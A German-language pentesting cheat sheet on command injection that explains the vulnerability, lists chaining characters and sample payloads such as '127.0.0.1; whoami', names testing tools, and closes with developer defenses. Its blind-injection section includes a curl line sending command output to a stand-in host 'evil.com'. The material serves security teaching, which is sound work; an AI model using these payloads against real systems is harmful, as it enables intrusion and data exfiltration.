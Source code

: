 Inhalt für web-pentesting/command-injection.md

# 💣 Command Injection

Command Injection (Befehlsinjektion) ist eine Schwachstelle, bei der ein Angreifer Systembefehle auf dem Server ausführen kann – meist durch unsichere Verarbeitung von Eingaben in Shell-Kommandos.

---

## 🧠 Grundlagen

### 🔍 Was passiert?
- Eingabe vom Nutzer wird direkt an ein Systemkommando übergeben
- z. B. über `ping`, `ls`, `cat`, `wget` usw.
- Wenn nicht sauber gefiltert → Ausführung von beliebigem Code möglich

### 💬 Beispiel
URL:  

http://example.com/ping?host=127.0.0.1


Server führt aus:
```bash
ping -c 1 127.0.0.1

Angreifer testet:

127.0.0.1; whoami

🔪 Injection-Techniken
🧱 1. Zeichen zur Befehlsverkettung
Zeichen	Funktion	Beispiel
;	Trennt zwei Befehle	127.0.0.1; whoami
&&	Führe nächsten nur aus, wenn vorheriger klappt	127.0.0.1 && whoami
`		`
`	`	Pipe
` `	Command Substitution	127.0.0.1; whoami``
$()	Ebenfalls Substitution	127.0.0.1; $(whoami)
🧪 Testmethoden
🔹 Manuell

    Eingabe: 127.0.0.1; whoami

    Rückgabe zeigt: www-data

🔹 Automatisiert mit Burp

    Repeater testen

    Intruder → Wordlist aus PayloadAllTheThings

🧰 Tools
Tool	Zweck
Burp Suite	Manuelle Tests / Fuzzing
ffuf	Fuzzing auf Parameter
Commix	Automatisiertes Ausnutzen
curl/wget	für Blind-Injection Tests
👁️ Blind Command Injection

Wenn keine direkte Rückmeldung:

    127.0.0.1; ping -c 3 evil.com

    127.0.0.1; curl http://evil.com/?data=$(whoami)

    Zeitverzögerung: sleep 5

🛡️ Schutzmaßnahmen (für Entwickler)

    Keine User-Eingabe in Systemkommandos verwenden!

    Wenn doch nötig:
    → Whitelist, Escaping, execve() statt system()

    Minimalrechte für Webprozesse (z. B. www-data)

